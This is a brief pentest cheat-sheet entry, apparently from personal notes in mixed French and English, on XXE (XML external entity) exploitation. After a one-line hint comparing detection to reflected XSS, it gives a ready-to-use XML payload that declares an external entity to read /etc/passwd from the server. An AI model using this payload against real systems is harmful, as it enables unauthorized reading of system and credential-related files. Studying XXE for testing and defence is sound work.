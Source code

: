 XXE -> exploitation des fichiers XML
HOW TO IDENTIFY :
	similar to XSS REFLECTED

USED TO READ FILES OR STUFF AND BETTER...


PAYLOAD :
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
